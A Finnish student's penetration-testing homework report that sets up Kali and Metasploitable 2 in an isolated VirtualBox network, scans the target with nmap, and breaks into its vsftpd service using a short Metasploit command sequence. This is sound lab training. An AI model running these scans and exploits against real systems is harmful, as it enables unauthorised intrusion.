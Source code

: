 # h1 OmaLabra

Tehtäviä saa aloittaa vasta, kun on hyväksynyt kurssin säännöt. Koneet on eristettävä Internetistä hyökkäysten harjoittelun ajaksi.

+ x) Lue ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva.)
  + [Darknet Diaries](https://darknetdiaries.com/) tai Herrasmieshakkerit podcast, yksi vapaavalintainen jakso jommasta kummasta. Voi kuunnella myös lenkillä, pyykiä viikatessa tms. Siisti koti / hyvä kunto kaupan päälle.
+ a) Asenna Kali virtuaalikoneeseen
+ b) Asenna Metasploitable 2 virtuaalikoneeseen
+ c) Tee koneille virtuaaliverkko, jossa
   + Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
   + Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa
+ d) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen etusivulla lukee Metasploitable.
+ e) Porttiskannaa Metasploitable huolellisesti (db_nmap -A)
+ f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)
+ n) Vapaaehtoinen: Murtaudu johonkin toiseen Metasploitablen palveluun.
+ m) Vapaaehtoinen, vaikea: Asenna ja korkkaa Metasploitable 3. Karvinen 2018: [Install Metasploitable 3 – Vulnerable Target Computer](https://terokarvinen.com/2018/install-metasploitable-3-vulnerable-target-computer/)

Vinkkejä
+ Podcastien kuunteluun kännykällä [AntennaPod löytyy F-Droidista](https://f-droid.org/en/packages/de.danoeh.antennapod/) ja Google Playsta.
+ Lue Valkamon artikkeli ennenkuin ryhdyt asentamaan virtuaalikoneita
+ Valkamo 2022: [Hacking into a Target Using Metasploit:](https://tuomasvalkamo.com/PenTestCourse/week-2/) Metasploitable
+ Halutessasi voit käyttää myös muita virtualisointiympäristöjä kuin VirtualBoxia, esim Macilla UTM. Tämä edellyttää toki omaa soveltamista.
+ Virtuaalikoneiisin voi asentaa uusia verkkokortteja vain, kun ne ovat sammuksissa
+ Suosittelen Kaliin 4 GB muistia
+ OffSec Ltd 2023: [Prebuilt Virtual Machines](https://tuomasvalkamo.com/PenTestCourse/week-2/)
+ Jokin tehtävä voi olla vaikea. Tee ja raportoi silloin kaikki mitä osaat. Listaa lähteet, joista hait ohjeita. Onko jotain vielä kokeiltavana? Mitä haasteita on vielä ratkaisun tiellä? Mitä virheimoituksia tai vastaavia tulee? Voit myös katsoa wepistä esimerkkiratkaisun - muista viitata lähteeseen ja merkitä, missä kohdassa katsoit ratkaisua. Ja katsotaan yhdessä tunnilla loput.
+ Murtautumiseen Metasploitable 2:n löytyy esimerkkiratkaisuja [Metasploitable 2 Exploitability Guide.](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide)
+ Muista laittaa lähdeviitteet. 
+ O'Reilly Learning videot ja kirjat pääset lukemaan ilmaiseksi HH tunnuksilla, kun kirjaudut kirjaston kautta.
+ VirtualBoxissa host-only-networking on kätevä. Voit laittaa Kaliin kaksi verkkokorttia, toinen NAT:lla Internetiin ja toinen host-only-network:n. Verkkoasetusten advanced-kohdasta voi vetää virtuaalisen verkkokaapelin irti ja kiinni, vaikka kone on päällä.
+ Jos Metasploitable 2 -maali ei löydy omasta verkosta (arp, arpwatch, netdiscover, nmap -sn...), voit kirjatua sisään (msfadmin:msfadmin) ja 'ifconfig' tai 'ip addr'. Metasploitable 2:n kannattaa laittaa vain yksi "Host only networking" verkkokortti, se ei toimi itsestään kahden verkkokortin kanssa.
+ Löydätkö hyökkäyksen, joka tukee meterpreter-payloadia? Onnistutko ylentämään meterpreteriin (sessions -u 1)?
+ Kun olet irroittanut Internetin ja valmiina skannaamaan, varmista. Kokeile, että Google tai DuckDuckGo ei aukea selaimella, että et voi pingata esim 8.8.8.8. Kokeile, että maalikoneesi vastaa pingiin. Jos maalikoneella on weppipalvelin, kannattaa katsoa selaimella, että sieltä aukeaa olettamasi sivu.
+ Tietoja verkosta
  + ip a; ifconfig
  + ip route
  + ipcalc 10.0.0.1/24
  + ping 8.8.8.8
+ Metaspoit (sudo msfdb run) on hyvä työkalu tunkeutumiseen.
  + db_status, workspace, db_nmap, hosts, services, setg RHOSTS 127.0.0.1, exploit, ctrl-Z, sessions
  + sudo nmap -sn 127.0.0.1-255 -oA sweep; sudo nmap -A -p 127.0.0.1 -oA one
+ Ole huolellinen, irrota harjoituskoneet Internetistä skannausten ja hyökkäysten ajaksi. Mitään ulkopuolisia koneita ei saa skannata eikä mihinkään ulkopuolisiin koneisiin saa tunkeutua.

###### x) Lue ja tiivistä.

###### a) Asenna Kali virtuaalikoneeseen

Kali on Linux-käyttöjärjestelmä, joka sisältää tietoturvaan ja tunkeutumistestaukseen liittyviä työkaluja. Latasin [linkistä](https://cdimage.kali.org/kali-2023.1/kali-linux-2023.1-virtualbox-amd64.7z) valmiin Kali-virtuaalikoneen, joka on tarkoitettu VirtualBoxiin, eikä vaadi erillistä asennusta. Tiedoston purkamiseen Windowsilla vaadittiin [7-zip](https://www.7-zip.org/a/7z2201-x64.exe) -ohjelma.

![kuva](https://user-images.githubusercontent.com/103586741/228532671-41b6a9a9-d060-47d8-829b-d38152cf541b.png)
VirtualBoxista valitaan 'Add' ja avataan ladattu vbox-tiedosto.

![kuva](https://user-images.githubusercontent.com/103586741/228538045-f5ac3670-e48c-4136-a8a3-be49cdab4f50.png)

![kuva](https://user-images.githubusercontent.com/103586741/228539261-16ce9ab5-4183-4a37-bcd4-0111330ba28a.png)
Valmiissa virtuaalikoneessa käyttäjätunnus ja salasana on oletuksena 'kali'  
[lähde](https://www.kali.org/docs/virtualization/import-premade-virtualbox/)

###### b) Asenna Metasploitable 2 virtuaalikoneeseen

Lataan [Metasploitable2 Linux](https://sourceforge.net/projects/metasploitable/) -virtuaalikoneen, joka toimi harjoitusympäristössäni maalikoneena, eli murtautumisen kohteena. Pakattu tiedosto sisältää valmiin virtuaalisen tallennuslevyn vmdk-tiedostona. Asennus tapahtuu hieman eri tavalla verrattuna valmiiseen Kaliin. Valitsen VirtualBoxista 'New' ja syötän kuvan mukaiset tiedot kenttiin. 
![kuva](https://user-images.githubusercontent.com/103586741/228551582-c4bde08a-b3f3-4d3f-94ca-d28aec944418.png)

Seuraavaksi jatkan Hardware-osion läpi oletusvalinnoilla. Virtual Hard disk -valikossa valitsen 'Use an Existing Virtual Hard Disk File', johon lisätään ladattu Metasploitable.vmdk -tiedosto. 
![kuva](https://user-images.githubusercontent.com/103586741/228552382-8e3a0d57-7c3f-4772-a5e9-72fb35c1a098.png)

Uusi virtuaalikone on nyt asennettu VirtualBoxiin. 
![kuva](https://user-images.githubusercontent.com/103586741/228565145-9c217f89-6fdd-4381-9094-8929a64ab7af.png)  
[lähde ](https://www.geeksforgeeks.org/how-to-install-metasploitable-2-in-virtualbox/)

###### c) Tee koneille virtuaaliverkko, jossa
+ Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
+ Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat

Kun molemmat virtuaalikoneet ovat sammutettu, niin niiden virtuaalisten verkkokorttien asetuksia voi muokata kohdasta 'Settings>Network'. Koneilla on oletuksena yksi verkkokortti NAT-tilassa, jonka avulle ne voivat ottaa yhteyden Internetiin isäntäkoneen välityksellä, mutta eivät toisiinsa. VirtualBoxista voi asettaa virtuaalikoneille yhteensä 4 eri verkkokorttia. 

Jotta koneet saadaan samaan suljettuun verkkoon, niin niiden pitää käyttää Host-only networking -tilaa verkkokortissa. Siinä VirtualBox luo erillisen verkon, joka ei ole yhteydessä isäntä-koneesta ulospäin. Tools-valikon Network-asetuksista pääsee tarkastelmaan sisäistä virtuaaliverkkoa. Oletuksena verkon IP-osoite on 192.168.56.1/24 ja sen yksilöivän osan osoiteavaruus on 101-256. Virtuaalinen DHCP-palvelin jakaa virtuaalikoneille omat osoitteet alkaen osoitteesta 192.168.56.101.  

![kuva](https://user-images.githubusercontent.com/103586741/228588977-27d5d34e-13c4-49f1-9437-e307e59581d0.png)

Lisään Kali-virtuaalikoneelle toisen verkkokortin, joka on Host-only -tilassa. Jätän olemassa olevan NAT-verkkokortin, jotta voin tarvittaessa kytkeä koneen Internetiin. Vaihdan myös Metasploitable-koneen verkkokortin Host-onlyksi. Käynnistän molemmat koneet ja testaan verkon toimivuutta. Kalissa annan komennon `ip a`, joka näyttää molempien verkkokorttien IP-osoitteet. Kokeilen ottaa yhteyden Googleen `ping` kommennolla, kun NAT-yhteys on päällä ja pois. Lisäksi kokeilen pingata virtuaalikoneilta toisille, jotta voin varmistaa, että ne ovat samassa verkossa. 
![kuva](https://user-images.githubusercontent.com/103586741/228597462-8c274ba2-c6d8-4a04-ade3-bf37b07a6783.png)


###### d) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen etusivulla lukee Metasploitable.

Käynnistän Metasploitin komennolla `sudo msfdb run`, mikä luo tietokannan ohjelmaa varten ja käynnistää sen komentoliittymän. Kyseessä on Kalissa mukana tuleva ohjelma, joka sisältää valmiita hyökkäyksiä ja haavoittuvuuksia.

Teen porttiskannauksen lähiverkkoon, jossa maalikone sijaitsee.  
`db_nmap -sn 192.168.56.1-255` Ohjelma löytää 4 eri IP-osoitetta, joista 2 on VirtualBoxin verkkokortilla. Toinen niistä on Kalin osoite ja toinen maalikoneen. Muut osoiteet ovat isäntäkoneen ja DHCP-palvelimen osoitteita. 

![kuva](https://user-images.githubusercontent.com/103586741/228621482-6bb9bca4-56e1-4c33-a389-645bd0f0d3e1.png)
Kopioin maalikoneen osoitteen `192.168.56.102` verkkoselaimeen. Etusivulle aukeaa Metasploitable2.
![kuva](https://user-images.githubusercontent.com/103586741/228621570-00aa823d-02c5-418b-8bbb-85395613166f.png)

###### e) Porttiskannaa Metasploitable huolellisesti (db_nmap -A)

Skannaan maalikoneen osoitteen laajemmin komennolla `db_nmap -A 192.168.56.102`. Tämä paljastaa paljon tietoja kohteesta ja käytössä olevia portteja, sekä oletukset niitä käyttävistä palveluista. 
![kuva](https://user-images.githubusercontent.com/103586741/228626393-923cdcf8-36aa-4072-bf5f-07bf203af58a.png)

###### f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)

Huomaan edellisestä skannauksesta, että VsFtpd-palvelu on FTP, eli tiedostonsiirtoprotokolla, joka käyttää porttia 21.
![kuva](https://user-images.githubusercontent.com/103586741/228901017-8d179432-36af-4e47-bf65-c7ee84b83a3f.png)

![kuva](https://user-images.githubusercontent.com/103586741/228902231-ec1559e4-5792-4abe-8f29-706b51b03498.png)

`search vsftpd`

`info 0`

`use 0`

`options`

`setg RHOSTS 192.168.56.102`

`exploit`

![kuva](https://user-images.githubusercontent.com/103586741/228905973-a006318b-48e4-4697-803a-143b6929af0b.png)


###### n) Vapaaehtoinen: Murtaudu johonkin toiseen Metasploitablen palveluun.
###### m) Vapaaehtoinen, vaikea: Asenna ja korkkaa Metasploitable 3. Karvinen 2018: [Install Metasploitable 3 – Vulnerable Target Computer](https://terokarvinen.com/2018/install-metasploitable-3-vulnerable-target-computer/)
